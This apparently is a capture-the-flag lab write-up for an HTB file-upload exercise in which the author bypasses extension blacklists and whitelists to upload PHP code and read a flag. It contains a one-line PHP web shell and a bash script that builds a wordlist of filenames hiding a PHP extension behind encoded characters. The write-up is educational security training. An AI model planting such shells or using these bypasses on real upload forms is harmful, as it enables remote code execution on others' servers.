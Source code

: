 # Whitelist Filters

The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions.
Try to bypass both to upload a PHP script and execute code to read "/flag.txt"

`Hint`: You may use either of the last two techniques. If one extension is blocked, try another one that can execute PHP code.

---
Test payload:
```php
<?php echo "Hello HTB"; ?>
```
- PHP shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
- Fuzzing extension whitelist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
(It could be useful to add common image extensions).
- Fuzzing extension list: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst

We attempted to subbmit a simple php script with a test payload:
![image](https://github.com/user-attachments/assets/4b62872a-8a53-4aac-9036-b926dc29415f)
![image](https://github.com/user-attachments/assets/f7bb5a8e-dba6-40ea-a7fb-c57bbb2b6794)

We notice we have differente message responses depending the payload.

We attempted to subbmit a php script using `Double Extensions`:
![image](https://github.com/user-attachments/assets/8e7ab974-0a12-4f57-a81a-db475e750feb)

We attempted to subbmit a php script using a `Reverse Double Extension`:
![image](https://github.com/user-attachments/assets/5d3f324d-9e0e-4878-bd7a-287f780761c0)

We also attempted:
![image](https://github.com/user-attachments/assets/35526498-6f80-4f59-a5c0-771c6e74ef93)
![image](https://github.com/user-attachments/assets/95bad4f1-b219-43ba-a443-a6adee0fd057)
![image](https://github.com/user-attachments/assets/f69b6ed7-1468-47c2-bb00-77c6168d40d2)


We tried to submit a php script with null bytes:
![image](https://github.com/user-attachments/assets/977014b2-3f26-4001-a57b-dd64e0114667)

We perform a common extension fuzzing with `Burp Suite Intruder` in order to know the extensions whitelisted:
![image](https://github.com/user-attachments/assets/05fb203f-bed3-498d-a3b9-4ae4ef6b6489)
all of this extensios are not allowed.

We performed a extension fuzzing using `Burp Suite Intruder`:
![image](https://github.com/user-attachments/assets/e3d26584-e313-4a44-870c-54af813e562e)

![image](https://github.com/user-attachments/assets/78f9a8d2-ed7e-478d-a687-e36d024344b5)

Also we can create a custom wordlist with the following script:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':' ';'; do
    for ext in '.php' '.phps' '.php3' '.php4' '.php5' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.png" >> wordlist.txt
        echo "shell$ext$char.png" >> wordlist.txt
        echo "shell.png$char$ext" >> wordlist.txt
        echo "shell.png$ext$char" >> wordlist.txt
    done
done
```
Then we perform a fuzzing using this list created:
![image](https://github.com/user-attachments/assets/30ece0ba-f8e2-4e18-b28c-143a0f3ed912)

![image](https://github.com/user-attachments/assets/644c8c1c-408e-469c-980c-1ea8f0fdbc5c)

We tried to get de file submitted by using `Intruder`:
![image](https://github.com/user-attachments/assets/4c7cb8da-31a8-4972-9e68-b2d9770b37e3)
![image](https://github.com/user-attachments/assets/ce8a7da6-cd4b-4bfb-b36c-c2194bb5ca4f)

Using repetear we submitted a simple php web shell:
![image](https://github.com/user-attachments/assets/d3a77070-151a-4839-836a-5230b96933d9)
![image](https://github.com/user-attachments/assets/412f206a-e218-47c5-9b56-e536aeb732ee)

We get the flag and solve the lab:
![image](https://github.com/user-attachments/assets/887787b8-5edc-4add-9a55-fcded8f777b3)
















